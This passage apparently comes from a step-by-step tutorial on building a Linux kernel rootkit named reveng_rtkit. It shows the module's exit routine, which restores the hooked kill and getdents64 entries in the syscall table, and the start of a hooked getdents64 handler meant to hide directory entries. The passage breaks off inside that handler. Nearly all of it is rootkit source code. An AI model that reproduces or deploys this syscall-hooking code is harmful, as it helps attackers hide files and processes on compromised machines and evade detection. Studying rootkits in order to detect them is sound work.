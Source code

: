 ```c
	protect_memory();

	return 0;

}

// ========================== Exit Function ====================

static void __exit rootkit_exit(void)
{
	printk(KERN_INFO "\n=========================================\n");

	unprotect_memory();
	printk(KERN_INFO "\t\t\t\t\t\t back to normal");

	// Editing the sycall table back to normal, i.e. with original syscalls: "getdents64" and "kill" syscalls.
	__sys_call_table[__NR_getdents64] = (unsigned long) orig_getdents64;
	__sys_call_table[__NR_kill] = (unsigned long) orig_kill;

	protect_memory();

	printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
	printk(KERN_INFO "=================================================\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("reveng007");
MODULE_DESCRIPTION("Modifying Stage of reveng_rtkit");
MODULE_VERSION("1.0");
```
This code is same as before (the kill syscall portion), just `__NR_getdents64` is added (new), [source](https://elixir.bootlin.com/linux/v5.11/source/arch/arm64/include/asm/unistd32.h#L447). 

Let us go step by step from `Test_hook_getdents64.h` file:
```c
// Test_hook_getdents64.h

#include <linux/slab.h>         /* kmalloc(), kfree(), kzalloc() */
#include <linux/fdtable.h>      /* Open file table structure: files_struct structure */
#include <linux/proc_ns.h>      /* For `PROC_ROOT_INO` */

// =============================================================================

#include <linux/dirent.h>	/* struct dirent refers to directory entry. */

struct linux_dirent {
    unsigned long   d_ino;	/* inode number */
    unsigned long   d_off;	/* offset to the next dirent */
    unsigned short  d_reclen;	/* length of this record */
    char            d_name[1];	/* filename */
};

static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs)
{
	/* Dependent registers:
	 * rax: contains syscall ids = 0xd9
	 * rdi: which contains the file descriptor = unsigned int fd
	 * rsi: which contains the passed arguments = struct linux_dirent64 __user *dirent; "__user" => this pointer resides in user space
	 * rdx: length of the passed argument(or string) = unsigned int count
```